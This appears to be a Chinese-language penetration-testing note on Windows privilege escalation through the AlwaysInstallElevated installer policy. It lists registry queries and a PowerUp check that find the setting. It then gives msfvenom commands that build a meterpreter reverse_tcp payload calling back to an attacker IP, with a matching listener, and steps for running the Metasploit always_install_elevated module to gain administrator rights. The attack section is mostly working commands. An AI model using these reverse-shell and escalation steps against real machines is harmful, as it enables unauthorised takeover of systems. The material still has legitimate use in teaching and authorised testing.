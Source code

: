 ```yaml
---
title: 总是以管理员权限安装的提权
categories:
- windows
tags:
- windows
---
```


参考资料：
[https://hacknpentest.com/windows-privilege-escalation-via-alwaysinstallelevated-technique/](https://hacknpentest.com/windows-privilege-escalation-via-alwaysinstallelevated-technique/)
视频[地址](https://www.bilibili.com/video/av89909371/)
作者注：跟linux中的suid权限有点像，某种应用程序，普通用户可以运行，并且程序有着管理员权限。

## 发现漏洞
```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```
AlwaysInstallElevated是一项功能，可为Windows计算机上的所有用户（特别是低特权用户）提供运行任何具有提升特权的MSI文件的功能。 MSI是基于Microsoft的安装程序软件包文件格式，用于安装，存储和删除程序。

注意：此选项等效于授予完整的管理权限，这可能会带来巨大的安全风险。 Microsoft强烈建议不要使用此设置。

默认情况下，此选项是关闭的，要创建此特权升级入口点，我们需要将其打开，我们将在此博客中进一步介绍。

由于该功能允许所有用户以提升的权限运行msi文件，因此低特权用户确实可以运行恶意的msi文件，并且可以生成shell或将新创建的用户添加到Administrator组。

## 使用powershell脚本发现漏洞
```
powershell -nop -ep bypass
Import-Module C:\Users\user\Desktop\PowerUp.ps1

Get-RegistryAlwaysInstallElevated
```
## 生成载荷
```获得一个普通权限的shell
handler -H 192.168.1.101 -P 44555 -p windows/x64/meterpreter/reverse_tcp

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=44555 -f exe -o payload.exe
```
## 利用漏洞

```提权
use exploit/windows/local/always_install_elevated
show options
set session 1
set payload windows/x64/meterpreter/reverse_tcp
set lport 3344
set lhost 192.168.1.101
run
```
